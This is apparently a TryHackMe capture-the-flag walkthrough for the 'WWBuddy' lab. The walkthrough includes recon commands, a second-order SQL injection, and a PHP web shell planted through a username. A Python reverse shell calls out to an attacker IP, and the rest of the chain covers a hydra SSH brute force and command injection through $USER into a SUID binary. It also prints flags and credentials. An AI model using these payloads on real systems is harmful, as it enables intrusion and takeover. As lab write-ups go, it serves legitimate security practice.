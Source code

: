 > WWBuddy

**export IP=10.10.241.182**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

# Gobuster

sudo gobuster -u http://$IP -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 20 -x php,txt,sql,bak -o gobuster/initial

```
/admin (Status: 301) => Can't access through our account
/api (Status: 301)
/change (Status: 301)
/chat.php (Status: 200)
/config.php (Status: 200)
/images (Status: 301)
/index.php (Status: 302)
/js (Status: 301)
/login (Status: 301)
/logout.php (Status: 302)
/profile (Status: 301)
/register (Status: 301)
```

We are provided with a login page here. So let's try to create an account and explore. I created an account `admin`:`admin123` . And I had a message from WWBuddy. We can try some basic 2nd order SQLi and let's change the username admin as `' or 1=1 -- a` and fill the details and change the password. Now all users must have the same password `password`. And we can't access `\admin` through WWBuddy neither `Roberta`

Logging into WWBuddy we can see another 2 users `Roberta` and `Henry`. And we can see the `/admin` page now.

```
Hey Henry, i didn't made the admin functions for this page yet, but at least you can see who's trying to sniff into our site here.
192.168.0.139 2020-07-24 22:54:34 WWBuddy fc18e5f4aa09bbbb7fdedf5e277dda00
192.168.0.139 2020-07-24 22:56:09 Roberto b5ea6181006480438019e76f8100249e 
```

And viewing the page-source we have the flag

# Website-Flag

```
THM{d0nt_try_4nyth1ng_funny}
```

Let's change the username of WWBuddy as `<?php system($_GET["cmd"]) ?>` and access admin page. And now log in as Henry and acessing /admin page show that we can execute php code. Spin a netcat session and access the url

`http://10.10.25.230/admin/?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.8.107.21%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`

We have a shell!!

# SUID Files

find / -perm -u=s -type f 2>/dev/null

```
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/authenticate => Hmm interseting!
/bin/fusermount
/bin/ping
/bin/mount
/bin/umount
/bin/su
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
```

Trying linpeas we have a log file `/var/log/mysql/general.log`. Looking inside we have 

`2020-07-25T15:01:40.143760Z	   12 Execute	SELECT id, username, password FROM users WHERE username = 'RobertoyVnocsXsf%X68wf'`

Looks like the credentials are `roberto`:`yVnocsXsf%X68wf`. We can SSH as `roberto`.
We have importante.txt

# user.txt

```
THM{g4d0_d+_kkkk}
```

importante.txt

```
A Jenny vai ficar muito feliz quando ela descobrir que foi contratada :DD

Não esquecer que semana que vem ela faz 26 anos, quando ela ver o presente que eu comprei pra ela, talvez ela até anima de ir em um encontro comigo.
```

# Translated importante.txt

```
Jenny will be very happy when she finds out she was hired: DD

Do not forget that next week she turns 26, when she sees the gift I bought her, maybe she even encourages to go on a date with me.
```

From the message earlier from Henry we can say her birthday will be SSH creds. 

# Finding Jenny's birthday

```
-rw-rw-r-- 1 roberto roberto  246 Jul 27 21:25 importante.txt
```

Let's create a basic python file to create a wordlsit based in birthdate. If we don't know we can look at the site to know the year and date.

And using the wordlist we created we can crack the SSH credentials using hydra

hydra -l jenny -P wordlist.txt ssh://10.10.25.230

```
[22][ssh] host: 10.10.25.230   login: jenny   password: 08/03/1994
```

Let's copy the /bin/authenticate to our local file. Let's analyse it!

Looking the file in r2 if uid is greater than 1000 we are not in developer dgroup. Let's try setting it to developers group.

```
$USER => jeeny
export USER="jenny; sh"
$USER => jenny; sh
authenticate => Now we are root!!
```

# root.txt

```
THM{ch4ng3_th3_3nv1r0nm3nt}
```
